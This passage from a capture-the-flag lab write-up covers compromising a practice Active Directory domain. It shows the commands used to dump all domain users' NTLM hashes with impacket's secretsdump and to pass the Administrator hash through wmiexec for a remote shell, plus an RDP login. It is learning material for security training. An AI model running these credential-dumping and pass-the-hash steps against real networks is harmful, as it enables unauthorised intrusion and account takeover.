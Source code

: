 ## Task 5: Domain Privilege Escalation

With the command

```
python3 /opt/impacket/examples/secretsdump.py spookysec.local/backup:backup2517860@spookysec.local
```

we will get all usernames and according hashes that are synched with the AD. Exploiting this, we will be able to escalate the active directory privileges.

With a Pass-the-hash attack we can impersonate the administrator user only by using his ntlm hash which we got out of the previous executed command.

## Task 6: Flags

To get the flags, I used the previous found credentials to open a remote desktop connection with the command

```
xfreerdp /u:[USERNAME] /p:[PASSWORD] /v:spookysec.local
```

The administrator flag was not able to receive via RDP. In this case the pass the hash method was needed to be performed. For this I used another impacket tool:

```
python3 /opt/impacket/examples/wmiexec.py spookysec.local/Administrator@[IP ADDRESS] -hashes [NTLM HASHES]
```

Then a Windows command shell opens up. I navigated to C:\\Users\\Administrator\\Desktop and used 

```
type root.txt
```

to get the content of the text file, containing the last flag.

The machine is done!
